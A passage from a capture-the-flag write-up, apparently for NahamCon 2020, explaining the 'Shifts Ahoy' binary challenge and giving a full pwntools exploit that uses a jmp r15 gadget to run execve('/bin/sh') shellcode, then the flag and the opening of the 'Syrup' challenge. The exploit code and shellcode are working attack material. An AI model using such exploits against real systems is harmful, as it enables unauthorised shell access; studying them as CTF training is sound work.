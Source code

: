 Thus, we are allowed to call 1 arbitrary ROP gadget. Fortunately, I found that the execution state left `r15` pointing to our stack buffer, and there was a `jmp r15` ROP gadget in the binary. We could then trivially jump straight to shellcode in our payload. To take the encryption into consideration, we have to send a "decrypted" payload, considering that,

```
encrypt(decrypt(payload)) == payload
```

```python
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50015)
else:
	r = process("./shifts")
pause()

def x(i):
	return i-0xd if i >= 0xd else i+0x100-0xd
def p(s):
	return "".join([chr(x(ord(i))) for i in s[:0x40]])+s[0x40:]

def encrypt(s):
	r.sendlineafter("> ", "1")
	if len(s) >= 0x60-1:
		r.sendafter(": ", p(s[:0x5f]))
	else:
		r.sendlineafter(": ", p(s))

# execve("/bin/sh", 0, 0) shellcode
sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x54\x5f\xb0\x3b\x0f\x05"
encrypt(sc.ljust(0x58, '\x41')+p64(0x00000000004011cd).decode("Latin-1")) # jmp r15 gadget
r.interactive()
```

With this, we can pop a shell and get our flag!

`flag{captain_of_the_rot13_ship}`

[shifts]:/ctf/nahamcon20/Shifts_Ahoy/shifts-ahoy
[shifts-exploit]:/ctf/nahamcon20/Shifts_Ahoy/exploit.py

# Syrup
> Can you pwn me?
> 
> Connect here:
>
> nc jh2i.com 50036 (Solves: 53, 100 pts)
>
> [syrup](syrup) [exploit.py](syrup-exploit)
